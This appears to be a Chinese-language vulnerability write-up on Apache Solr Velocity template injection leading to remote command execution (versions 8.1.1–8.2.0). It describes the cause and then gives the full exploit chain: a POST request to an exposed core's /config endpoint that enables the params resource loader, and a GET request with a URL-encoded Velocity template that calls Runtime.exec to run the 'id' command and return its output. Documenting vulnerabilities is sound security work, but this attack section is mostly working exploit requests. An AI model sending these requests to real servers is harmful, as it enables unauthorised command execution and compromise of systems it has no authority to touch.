 Apache Solr Velocity模版注入远程命令执行
========================================

一、漏洞简介
------------

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。2、2Apache
Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的paramsresource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。当设置paramsresource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

二、漏洞影响
------------

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

三、复现过程
------------

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/\#/进入主界面，单击左侧的Core
Selector查看集合名称

![](./resource/ApacheSolrVelocity模版注入远程命令执行/media/rId25.png)

#### 1、post发送请求

    POST /solr/test/config HTTP/1.1
    Host: solr:8983
    Content-Type: application/json
    Content-Length: 259

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solrresource.loader.enabled": "true",
        "paramsresource.loader.enabled": "true"
      }
    }

#### 2、执行系统命令

    GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
    Host: localhost:8983
